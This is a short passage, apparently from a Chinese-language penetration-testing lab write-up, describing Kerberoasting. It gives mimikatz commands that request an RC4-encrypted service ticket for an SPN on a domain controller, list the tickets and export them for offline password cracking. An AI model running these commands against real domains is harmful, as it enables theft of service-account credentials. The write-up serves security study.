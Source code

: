 ![image-20231122183954680](images/49.png)

接下来用mimikatz申请创建票据，票据为RC4加密，可以通过爆破的到服务对应用户的密码

```
mimikatz kerberos::ask /target:mysql/16server-dc1.ack123.com（mysql/16server-dc1.ack123.com是通过SPN服务查看的到的）
```

接下来查看并导出票据

```
mimikatz kerberos::list          #查看
mimikatz kerberos::list /export  #导出
```

![image-20231122184352777](images/50.png)
